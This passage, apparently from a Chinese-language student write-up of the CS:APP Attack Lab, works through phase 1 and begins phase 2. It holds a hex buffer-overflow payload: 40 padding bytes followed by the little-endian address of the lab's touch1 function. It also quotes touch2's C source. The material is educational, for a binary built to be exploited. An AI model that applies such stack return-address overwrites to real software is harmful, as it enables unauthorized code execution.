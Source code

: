 0x28，即为 40 个字节

然后查看 `touch1` 函数的地址：

`004017c0 <touch1>:`

所以只需要在 40 个任意字节后输入这一地址即可。注意是小端序，地址需要翻转：

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

即可通过

![](srcs/3-1.png)

### phase2

首先还是看说明里的函数代码：

```cpp
void touch2(unsigned val){
   vlevel = 2;
   if (val == cookie){
      printf("Touch2!: You called touch2(0x%.8x)\n", val);
      validate(2);
   } else {
      printf("Misfire: You called touch2(0x%.8x)\n", val);
      fail(2);
   }
   exit(0);
}
```
